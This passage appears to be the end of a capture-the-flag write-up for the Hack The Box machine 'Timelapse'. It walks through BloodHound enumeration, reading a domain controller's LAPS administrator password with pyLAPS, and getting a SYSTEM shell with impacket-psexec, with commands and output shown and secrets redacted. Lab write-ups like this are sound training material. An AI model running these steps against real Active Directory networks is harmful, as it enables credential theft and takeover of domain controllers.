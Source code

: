 ```bash
bloodhound-python -u svc_deploy -p '<REDACTED>' -ns 10.129.227.113 -c all -d timelapse.htb
```

BH reveals that the ‘Svc_deploy’ user is **allowed to read the DC01’s local administrator password**. 

<img src="/assets/img/timelapse/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">

Used [pyLAPS](https://github.com/p0dalirius/pyLAPS) to read it.

```bash
python3 pyLAPS.py -d timelapse.htb -u svc_deploy -p '<REDACTED>' -a get --dc-ip 10.129.227.113
                 __    ___    ____  _____
    ____  __  __/ /   /   |  / __ \/ ___/
   / __ \/ / / / /   / /| | / /_/ /\__ \   
  / /_/ / /_/ / /___/ ___ |/ ____/___/ /   
 / .___/\__, /_____/_/  |_/_/    /____/    v1.2
/_/    /____/           @podalirius_           
    
[+] Extracting LAPS passwords of all computers ... 
  | DC01$                : <REDACTED>
[+] All done!
```

Finally, connected as SYSTEM in the Domain Controller and read the root flag. GGs!

```
impacket-psexec administrator:'<REDACTED>'@10.129.227.113

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
dc01

C:\Windows\system32> type c:\users\TRX\desktop\root.txt
6a0ed86eb8a3a7ac****************
```